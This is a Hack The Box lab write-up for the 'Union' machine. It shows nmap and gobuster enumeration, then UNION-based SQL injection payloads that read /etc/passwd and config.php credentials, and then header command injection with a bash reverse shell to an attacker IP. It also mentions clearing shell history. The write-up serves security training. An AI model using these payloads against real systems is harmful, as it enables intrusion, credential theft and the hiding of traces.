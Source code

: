 # HTB: Union

## Engagement Overview

**Target:** Union
**Local IP:** 10.10.16.9
**Box IP:** 10.10.11.128
**Date:** 2025-07-28

---

### Objectives

- Enumerate services and web endpoints
- Identify SQL Injection vulnerability
- Extract credentials and escalate to SSH access
- Investigate privilege escalation paths
- Retrieve system flags

---

## Service Enumeration

**Nmap Results:**
```bash
nmap -sV -sC -oA nmap/union 10.10.11.128

Nmap scan report for 10.10.11.128
Host is up (0.045s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

**Gobuster Findings:**
```bash
/index.php           (Status: 200) [Size: 1220]
/config.php          (Status: 200) [Size: 0]
/challenge.php       (Status: 200) [Size: 772]
/firewall.php        (Status: 200) [Size: 13]
/.htaccess           (Status: 403)
/.htpasswd           (Status: 403)
```

---

## Methodologies

1. **Web Enumeration** using Gobuster and manual browsing.  
2. **SQL Injection Testing** – manually crafted UNION statements due to SQLMap filters.  
3. **Source Code Review** – extracted credentials from exposed `config.php`.  
4. **Authentication Bypass** – replayed crafted requests (see PoC).  
5. **Post-Exploitation** – leveraged command injection via manipulated `X-FORWARDED-FOR` header.  

---

## Initial Access

**Vulnerability Explanation:**  
The target web application was vulnerable to SQL Injection. SQLMap was filtered, requiring manual UNION statements to extract database contents and read sensitive files.

**SQL Injection Payloads:**

```sql
# curl -s -X POST http://10.10.11.128 -d "player='

-- Dump flag
union select group_concat(one) from flag;-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Dump players table
union select group_concat(player) from players;-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read OS release info
union select load_file('/etc/lsb-release');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read /etc/passwd
union select load_file('/etc/passwd');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read PHP config file (contains MySQL creds)
union select load_file('/var/www/html/config.php');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
```

**HTTP Request (flag.req):**

```http
POST /index.php HTTP/1.1
Host: 10.10.11.128
Content-Length: 12
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=mvi1jq6khbq7p2lh16hs7dntgm

player=union
```

**Penetration:**  
- Crafted UNION SQL statements to retrieve the flag and configuration data.  
- Extracted MySQL credentials from `config.php`.  
- Authenticated to the web application with extracted creds.  
- Application logic enabled SSH (via iptables) upon successful authentication.  

**SSH Access:**  
Logged in successfully using MySQL credentials.  

---

## Privilege Escalation

After gaining shell access, source code analysis revealed the application used an IP whitelisting function based on the `X-FORWARDED-FOR` header.  
This input was unsanitized and allowed direct **command injection**.  

By forging the header with injected commands, root shell access was obtained.  

```bash
# Burp Repeater

GET /firewall.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.128/challenge.php
Connection: close
Cookie: PHPSESSID=orpc54gjbbmaih8loabi2ru7bi
Upgrade-Insecure-Requests: 1
X-FORWARDED-FOR: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1";
```

---

## House Cleaning

- Removed enumeration artifacts.  
- Cleared shell history.  
- Left no residual processes or altered configurations.  

---

## Post-Exploitation

**Tools Utilized**  
- `nmap`  
- `gobuster`  
- Burp Suite (for request replay)  
- Manual SQL Injection (UNION)  
- SSH  

**Key Takeaways**  
- SQLMap filters can be bypassed by manual UNION-based injection.  
- Configuration files (`config.php`) often expose credentials.  
- Application logic enabling SSH through iptables demonstrates chained exploitation.  
- Blindly trusting headers (`X-FORWARDED-FOR`) introduces critical injection vectors.  
